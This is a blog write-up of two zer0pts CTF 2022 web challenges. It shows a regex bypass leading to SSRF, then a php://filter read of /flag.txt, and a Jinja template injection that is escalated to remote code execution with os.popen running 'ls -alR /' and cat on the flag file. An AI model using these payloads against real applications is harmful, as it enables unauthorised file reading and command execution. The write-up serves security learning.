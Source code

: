 ```yaml
---
layout: post
title: zer0pts CTF 2022 Writeup
published: true
categories: [Web]
excerpt: I debated doing a writeup for this since I only worked on the easiest web challenge with my team, but since this blog needed an update I am publishing it. I solved miniblog++ after the CTF as a teammate solved it during it.
---
```


I debated doing a writeup for this since I only worked on the easiest web challenge with my team, but since this blog needed an update I am publishing it. I solved miniblog++ after the CTF as a teammate solved it during it.

---

## Web

---

# GitFile Explorer

#### Category: Web | 77 points

<details>
  <summary>Challenge Description</summary>
  
  Read /flag.txt on the server.     
	http://gitfile.ctf.zer0pts.com:8001/
</details>

The source code was given for this challenge, so no guessing was required.

First, I tried to understand the application by clicking on the Download button on the Challenge URL, which returns the following URL: [http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md](http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md)


Looking at the source code, we see that the URL is generated as follows:

```php
$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
```


It is immediately obvious that the regex is very loose. Since the regex only checks for presence of `github` or `gitlab` or `bitbucket` in the URL, the full hostname is not actually needed and we just need to include it somewhere in our `service` parameter. 

An SSRF can be achieved by putting an `@` after the hostname to redirect to our chosen domain, such as [http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=.&repo=.&branch=.&file=index.php](http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=.&repo=.&branch=.&file=index.php) would return the contents of `index.php` of the site.

From here I tried path traversal by replacing the `index.php` with `../../../flag.txt` only to be met with the following error:

```markdown
: file_get_contents(http://...@gitfile.ctf.zer0pts.com:8001/./././../../../flag.txt): Failed to open stream: HTTP request failed! HTTP/1.1 400 Bad Request in

**/var/www/html/index.php**

on line **30**
```

I got the same error when trying [http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=..&repo=..&branch=..&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=..&repo=..&branch=..&file=flag.txt) as well, which should have sent the same request given the code:

```php
$url = craft_url($service, $owner, $repo, $branch, $file);
```

It was here a few of us got stuck for a while, and we started looking for other bypasses.

The following regex bypasses are viable:
- using the newline character `%0A`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://gitfile.ctf.zer0pts.com:8001/%0Ahttp://github&owner=.&repo=.&branch=.&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http://gitfile.ctf.zer0pts.com:8001/%0Ahttp://github&owner=.&repo=.&branch=.&file=flag.txt)
- using the URL-encoded fragment identifier `#`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost%23github&owner=.&repo=.&branch=.&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost%23github&owner=.&repo=.&branch=.&file=flag.txt)
- using the query paramter `?=`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost/flag.txt%3Fa%3Dgithub&owner=.&repo=.&branch=.&file=a](http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost/flag.txt%3Fa%3Dgithub&owner=.&repo=.&branch=.&file=a)

We also tried non-HTTP protocols such as:
- File selector `file://`: [http://gitfile.ctf.zer0pts.com:8001/?service=file://flag.txt%0Ahttp://github&owner=.&repo=.&branch=.&file=index.php](http://gitfile.ctf.zer0pts.com:8001/?service=file://flag.txt%0Ahttp://github&owner=.&repo=.&branch=.&file=index.php) which returns `Remote host file access not supported`, meaning that the `file://` wouldn't work.
- PHP Filter `php://filter/convert.base64-encode/resource=`: [http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=flag.txt%0Ahttp://github&owner=..&repo=..&branch=..&file=.](http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=flag.txt%0Ahttp://github&owner=..&repo=..&branch=..&file=.), which returns `Read of 8192 bytes failed with errno=21 Is a directory in /var/www/html/index.php on line 30`, which meant that `resource` was somehow reading a directory instead of the file we specified. 

And thus to no avail.

It was at this point Ocean came in with the brilliant idea of separating the base resource directory as a `/` and specifying the file in the param instead: [http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=/%0ahttp://github&owner=..&repo=..&branch=..&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=/%0ahttp://github&owner=..&repo=..&branch=..&file=flag.txt), which finally led us to the flag.

The content returned was in base64 due to our filter: `emVyMHB0c3tmb28vYmFyLy4uLy4uLy4uLy4uLy4uL2RpcmVjdG9yeS90cmF2ZXJzYWx9Cg==`

Which when decoded, it gives the flag!

![Flag](../assets/zer0pts-ctf-2022/gitfile-flag.png)

<details>
  <summary>FLAG</summary>
  
   zer0pts{foo/bar/../../../../../directory/traversal}
</details>


---

# Miniblog++

#### Category: Web | 113 points

<details>
  <summary>Challenge Description</summary>
  
  Backup is important!
	http://miniblog.ctf.zer0pts.com:8008/
</details>

Credits to @Creastery who solved this during the CTF. I didn't look at it until after the CTF ended as it was already solved.

Upon a cursory skim of the source code, I saw lots of `{{title}}` and `{{author}}` which hints towards SSTI.

Logging into the site automatically creates an account for your specified user, so I tried creating an account with username `7*7` in hopes of it being executed when `{{author}}` is generated, however it did not work. `{{title}}` also does not seem to execute my payload.

Next I tried to enter `{{7*7}}` in the content body instead, but was prevented by some server side rule that says `You can only use "{{title}}", "{{author}}", and "{{date}}`. 

Thus, I checked the source code for the logic:

```python
if len(content) == 0     : return 'HTML is empty', None
        if len(content) > 1024*64: return 'HTML is too long', None
        ...
        for brace in re.findall(r"{{.*?}}", content):
            if not re.match(r"{{!?[a-zA-Z0-9_]+}}", brace):
                return 'You can only use "{{title}}", "{{author}}", and "{{date}}"', None
```

As we can see, apart from the insignificant forbidden pattern (*which I have redacted for breaking jekyll*), the regex also matches any alphanumeric character and underscores between the braces and rejects them if they don't match any of the 3 tags.

However, newlines are not prevented and thus we can insert this into the body:
```html
<!DOCTYPE html>
<html>
{{
7*7
}}
  <head>
    <meta charset="UTF-8">
    <title>{{title}}</title>
  </head>
  <body>
    <h1>{{author}}'s Website</h1>
    <p>This is a sample page by {{author}} published on {{date}}.</p>
  </body>
</html>

```

Which leads to the equation being executed server side, and we got the SSTI!

![Answer to Life](../assets/zer0pts-ctf-2022/miniblog1-42.png)

Next, I changed the `7*7` payload to a more useful payload for RCE:
`request.application.__globals__.__builtins__.__import__('os').popen('ls -alR /').read()`

![Remote Code Execution](../assets/zer0pts-ctf-2022/rce.png)

I listed all the files on the server and went to look for the flag. 

Eventually I found it in `flag-wowRCEwow.txt`. My final payload was:

```html
<!DOCTYPE html>
<html>
{{
request.application.__globals__.__builtins__.__import__('os').popen('cat /flag-wowRCEwow.txt').read()
}}
  <head>
    <meta charset="UTF-8">
    <title>{{title}}</title>
  </head>
  <body>
    <h1>{{author}}'s Website</h1>
    <p>This is a sample page by {{author}} published on {{date}}.</p>
  </body>
</html>

```

![Flag](../assets/zer0pts-ctf-2022/miniblog1-flag.png)

<details>
  <summary>FLAG</summary>
  
   zer0pts{You_obtained_a_Bachelor_of_ZIP}
    
</details>


---

